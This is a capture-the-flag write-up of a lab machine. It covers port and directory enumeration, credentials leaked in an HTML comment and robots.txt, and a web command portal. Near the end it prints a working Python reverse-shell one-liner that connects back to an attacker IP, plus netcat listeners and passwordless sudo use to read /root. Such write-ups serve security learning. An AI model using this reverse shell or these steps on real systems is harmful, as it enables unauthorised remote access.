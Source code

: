 # enumerate
## nmap
```console
kali@kali:~$ sudo python3 pymap.py -t 10.10.238.21
[sudo] password for kali: 
created by gu2rks/kurohat 
find me here https://github.com/gu2rks

port scanning...
22/tcp open  ssh
80/tcp open  http
Enumerating open ports...
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-17 08:54 EDT
Nmap scan report for 10.10.238.21
Host is up (0.044s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 38:ea:72:f3:bb:ee:fd:4f:3a:78:de:fd:f6:23:03:d1 (RSA)
|   256 4f:9e:1c:4b:d6:bb:3b:d4:90:10:99:d2:b6:26:74:bb (ECDSA)
|_  256 e1:f0:0c:69:55:a4:d9:2e:3b:86:a2:74:22:5a:f0:70 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%), Android 7.1.1 - 7.1.2 (92%), Linux 3.13 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   43.89 ms 10.8.0.1
2   43.79 ms 10.10.238.21

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.21 seconds
```
# Port 80
## gobuster
```console
kali@kali:~$ gobuster dir -u http://10.10.238.21/ -w /usr/share/SecLists/Discovery/Web-Content/big.txt -t 54 -x .php,.txt,.html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.238.21/
[+] Threads:        54
[+] Wordlist:       /usr/share/SecLists/Discovery/Web-Content/big.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2020/07/17 09:01:06 Starting gobuster
===============================================================
/.htaccess (Status: 403)
/.htaccess.txt (Status: 403)
/.htpasswd (Status: 403)
/.htpasswd.php (Status: 403)
/.htpasswd.txt (Status: 403)
/.htpasswd.html (Status: 403)
/.htaccess.html (Status: 403)
/.htaccess.php (Status: 403)
/assets (Status: 301)
/denied.php (Status: 302)
/index.html (Status: 200)
/login.php (Status: 200)
/portal.php (Status: 302)
/robots.txt (Status: 200)
/robots.txt (Status: 200)
/server-status (Status: 403)
===============================================================
2020/07/17 09:02:33 Finished
===============================================================
```
What I found:
1. index.html
```html
<!--

Note to self, remember username!

Username: R1ckRul3s

-->
```
2. robots.txt : `Wubbalubbadubdub`
3. `/login.php` which I assume it will have something to do with `/portal.php` and `/denied.php`
4. /assests : just gif and pic

# flags 1
I was thinking to using Hydra to bruteforce it but I try to log in with all info I have and luckly I got in using what I found in `robots.txt` as a password.


![portal](pic/Screenshot%202020-07-17%20at%2015.09.11.png)

Note: 
- www-data priv
- cant access anything else than `commands`. get message `Only the REAL rick can view this page..`
- cannot ```cat```, ```head```, ```tail```, ```more```

No worry, if we cant `cat` then we can just get the page from webbrowser, there are really interesting file on the `www-data` root directory, view it to get the **frist flag**

# flag 2
clue.txt said `Look around the file system for the other ingredient.` the 2nd flag is in /home/rick. use ```less``` to view it

# flag 3
- suid
```console
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/5742/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/5742/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/5742/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/5742/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/5742/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/5742/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/5742/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/5742/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/5742/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/5742/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/5742/usr/bin/sudo
-rwsr-xr-- 1 root systemd-network 42992 Jan 12  2017 /snap/core/5742/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Jan 18  2018 /snap/core/5742/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Oct 15  2018 /snap/core/5742/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 390888 Jan 29  2016 /snap/core/5742/usr/sbin/pppd
-rwsr-xr-x 1 root root 40152 May 16  2018 /snap/core/6350/bin/mount
-rwsr-xr-x 1 root root 44168 May  7  2014 /snap/core/6350/bin/ping
-rwsr-xr-x 1 root root 44680 May  7  2014 /snap/core/6350/bin/ping6
-rwsr-xr-x 1 root root 40128 May 17  2017 /snap/core/6350/bin/su
-rwsr-xr-x 1 root root 27608 May 16  2018 /snap/core/6350/bin/umount
-rwsr-xr-x 1 root root 71824 May 17  2017 /snap/core/6350/usr/bin/chfn
-rwsr-xr-x 1 root root 40432 May 17  2017 /snap/core/6350/usr/bin/chsh
-rwsr-xr-x 1 root root 75304 May 17  2017 /snap/core/6350/usr/bin/gpasswd
-rwsr-xr-x 1 root root 39904 May 17  2017 /snap/core/6350/usr/bin/newgrp
-rwsr-xr-x 1 root root 54256 May 17  2017 /snap/core/6350/usr/bin/passwd
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /snap/core/6350/usr/bin/sudo
-rwsr-xr-- 1 root systemd-network 42992 Jan 12  2017 /snap/core/6350/usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /snap/core/6350/usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98472 Jan 29  2019 /snap/core/6350/usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root dip 394984 Jun 12  2018 /snap/core/6350/usr/sbin/pppd
-rwsr-xr-x 1 root root 27608 May 16  2018 /bin/umount
-rwsr-xr-x 1 root root 30800 Jul 12  2016 /bin/fusermount
-rwsr-xr-x 1 root root 142032 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
-rwsr-xr-x 1 root root 40128 May 16  2017 /bin/su
-rwsr-xr-x 1 root root 44680 May  7  2014 /bin/ping6
-rwsr-xr-x 1 root root 40152 May 16  2018 /bin/mount
-rwsr-xr-x 1 root root 49584 May 16  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newgidmap
-rwsr-xr-x 1 root root 40432 May 16  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 54256 May 16  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 23376 Jul 13  2018 /usr/bin/pkexec
-rwsr-xr-x 1 root root 136808 Jul  4  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 39904 May 16  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 32944 May 16  2017 /usr/bin/newuidmap
-rwsr-xr-x 1 root root 75304 May 16  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 428240 Nov  5  2018 /usr/lib/openssh/ssh-keysign
-rwsr-sr-x 1 root root 98440 Jul 19  2018 /usr/lib/snapd/snap-confine
-rwsr-xr-- 1 root messagebus 42992 Jan 12  2017 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 14864 Jul 13  2018 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 38984 Jun 14  2017 /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
```
When I sudo, it dint give me back anything... like a jail shell. so I try to spawn a reverse shell with php
```console
kali@kali:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39104
kali@kali:~$ nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39106
kali@kali:~$ nc -nvlp 1234
```
it didnt works, the shell is terminated direcly. so I ran ```which python```, ```which python3``` to fine another way. python3 is installed in the server. now spawn reverse shell using the following cmd:
```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<ip>",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
it works
```console
kali@kali:~$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.238.21] 39152
/bin/sh: 0: can't access tty; job control turned off
$ sudo -l
Matching Defaults entries for www-data on
    ip-10-10-238-21.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-238-21.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
$ sudo root ls /root
sudo: root: command not found
$ sudo ls /root
3rd.txt
snap
$ sudo cat /root/3rd.txt
```